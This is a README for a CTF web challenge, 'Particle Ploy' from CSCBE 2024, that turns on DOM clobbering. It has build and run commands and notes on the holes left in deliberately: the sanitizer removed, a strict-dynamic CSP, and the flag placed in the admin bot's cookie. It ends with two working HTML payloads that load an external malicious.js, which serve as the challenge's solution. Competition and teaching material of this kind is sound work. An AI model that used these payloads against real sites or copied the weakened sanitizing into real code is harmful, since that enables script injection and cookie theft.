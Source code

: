 # Particle Ploy
https://publications.cispa.saarland/3756/1/sp23_domclob.pdf

A CTF challenge for the 2024 CSCBE competition

- particles: https://github.com/marcbruederlin/particles.js?tab=readme-ov-file
- layout: https://github.com/kevquirk/simple.css
- club-mate: https://club-mate.be/
- database: https://flask.palletsprojects.com/en/3.0.x/patterns/sqlite3/
- forms: https://wtforms.readthedocs.io/en/3.1.x/crash_course/

## Production

    docker build -t particle-ploy . && docker run --rm -p 127.0.0.1:8080:8080 particle-ploy

## Development

### Webserver

        cd app
        python -m pip install -r requirements.txt
        python -m flask --app app --debug run

OR

        docker compose up --build

### Admin checker

        cd admin-simulation
        python -m pip install -r requirements.txt
        python main.py


Go to `localhost:8080`


remove safe tag
remove sanitizer
CSP header -> strict-dynamic
admin visiting script -> add flag in cookie

## Working payload

```
</p><body id="custom_particles">http://127.0.0.1:4321/malicious.js</body>
<style>h1,p{display:none;}</style>
```

```
</p><html id="custom_particles" class="x">http://127.0.0.1:4321/malicious.js</html>
<style>h1,p{display:none;}</style>
```